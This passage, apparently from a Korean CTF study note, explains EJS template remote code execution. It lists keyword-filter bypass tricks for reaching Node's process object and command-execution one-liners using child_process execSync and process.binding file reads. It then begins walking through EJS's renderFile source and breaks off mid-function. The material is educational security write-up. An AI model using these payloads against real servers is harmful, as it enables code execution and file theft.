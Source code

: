 :::note
`Prototype Pollution`이 발생한다는 것 자체가 큰 취약점이다. `Prototype Pollution`이 발생한다면 사용하고 있는 라이브러리에 따라서, 큰 문제가 발생할 수 있다. _(Ex. `jsonwebtoken`을 사용 중이라면 `token`이 잘못 생성되게도 할 수 있다.)_
:::

### EJS RCE In CTFs

CTF에서는 `EJS RCE`와 관련된 문제가 종종 출제된다. 그러나, 여러 필터링 방법, JS의 모듈(`CommonJS`, `ES Module`)에 따라서 공격 방법이 달라진다. 이때 사용할 수 있는 공격 방법을 알아보자.

#### Text filtering bypass

- this['proc' + 'cess']
- this[['proc', 'cess'].join('')]
- this['proc'.concat('cess')]
- this[\`${'proc'}cess\`]
- this[\`${'proc' + 'cess'}\`]
- this[\`proc${''}cess\`]
- String.fromCharCode(1)
- c='abcdefghijklmnopqrstuvwxyz';process[c[0]+c[1]]
- eval('proc' + 'ess')
- using [JSFuck](https://jsfuck.com/)
- using Unicode escape sequences (e.g., `\u0070\u0072\u006F\u0063\u0065\u0073\u0073` for `process`)
- replace, Function constructor, map, reduce, etc...

#### CommonJS

- process.mainModule.require('child_process').execSync('code to execute')

#### ES Module

- import('child_process').then(({ execSync }) => execSync('code to execute'))
- process.binding('fs').readFileUtf8('file to read',0,0)

## Why EJS RCE Occurs?

`EJS`에서 `RCE`가 발생하는 이유는 간단하다. `EJS`는 `js`를 사용하는 템플릿이기 때문이다.

먼저, 왜 `EJS`에서 `RCE`가 발생하는지 보다, 어떻게 `EJS`가 작동하는지를 알아보자.

`express`에서 `render`를 호출하면 `renderFile`이 호출된다.

```js title="lib/ejs.js (v3.1.10)" {35-38}
exports.renderFile = function () {
  var args = Array.prototype.slice.call(arguments)
  var filename = args.shift()
  var cb
  var opts = { filename: filename }
  var data
  var viewOpts

  // Do we have a callback?
  if (typeof arguments[arguments.length - 1] == 'function') {
    cb = args.pop()
  }
  // Do we have data/opts?
  if (args.length) {
    // Should always have data obj
    data = args.shift()
    // Normal passed opts (data obj + opts obj)
    if (args.length) {
      // Use shallowCopy so we don't pollute passed in opts obj with new vals
      utils.shallowCopy(opts, args.pop())
    }
    // Special casing for Express (settings + opts-in-data)
    else {
      // Express 3 and 4
```